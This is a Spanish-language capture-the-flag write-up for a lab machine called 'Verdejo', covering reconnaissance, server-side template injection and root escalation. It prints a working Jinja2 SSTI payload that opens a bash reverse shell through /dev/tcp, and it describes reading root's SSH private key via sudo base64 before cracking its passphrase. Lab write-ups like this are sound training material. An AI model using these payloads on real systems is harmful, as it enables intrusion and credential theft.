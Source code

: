 # 🟢 Verdejo

![IMAGEN_MAQUINA_PORTADA](./images/portada.png)
> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🕵️ Reconocimiento

Empezamos con un escaneo con **nmap** para identificar puertos y servicios activos.

![nmap](./images/nmap.png)

El escaneo devuelve los puertos **22 (SSH)**, **80 (HTTP)** y **8089 (HTTP)** abiertos.

Al acceder a la IP por el puerto 80 aparece la página por defecto de Apache2, sin nada interesante ni en la vista ni en el código.

![web1](./images/web1.png)

Accediendo por el puerto **8089**, se muestra una página sencilla. No hay nada útil en el código fuente, pero al pulsar el botón, se imprime el contenido del textarea directamente en pantalla.

![web2](./images/web2.png)

Probamos si es vulnerable a **SSTI (Server Side Template Injection)**, una técnica que permite ejecutar código en el servidor si este interpreta contenido de plantillas sin validación. Para comprobarlo, insertamos una operación simple (`{{7*7}}`) en el textarea.

![SSTI](./images/SSTI.png)  
![49](./images/49.png)

Como el servidor responde con `49`, confirmamos que es vulnerable.

Aprovechando esto, lanzamos una **reverse shell** desde el textarea, mientras ponemos nuestra máquina a la escucha.

``` 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >&/dev/tcp/172.17.0.1/3344 0>&1\'').read() }}  
```

![revershell](./images/revershell.png)

## ⬆️ Escalada de privilegios

Una vez dentro, ajustamos la shell y ejecutamos `sudo -l` para ver qué comandos podemos usar como root.

![sudo-l](./images/sudo-l.png)

Vemos que podemos ejecutar el binario **base64** como root sin necesidad de contraseña. Con **GTFOBins** verificamos que se puede usar para leer archivos.

![gtfobins](./images/gtfobins.png)

Ya que el puerto **22 (SSH)** estaba abierto, intentamos leer el contenido de `/root/.ssh/id_rsa`, copiamos la clave privada y la guardamos en nuestra máquina.

![id_rsa](./images/id_rsa.png)

La clave tiene **passphrase**, así que usamos **John the Ripper** para crackearla.

![john](./images/john.png)

Con la passphrase descubierta, ya podemos conectarnos como **root** por SSH.

![root](./images/root.png)

Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Identificación de una vulnerabilidad **SSTI** en una web personalizada.
- Ejecución de una **reverse shell** desde el navegador.
- Enumeración de permisos con `sudo -l` y uso del binario **base64** para leer archivos protegidos.
- Obtención y crackeo de la clave SSH de root para acceder con control total.



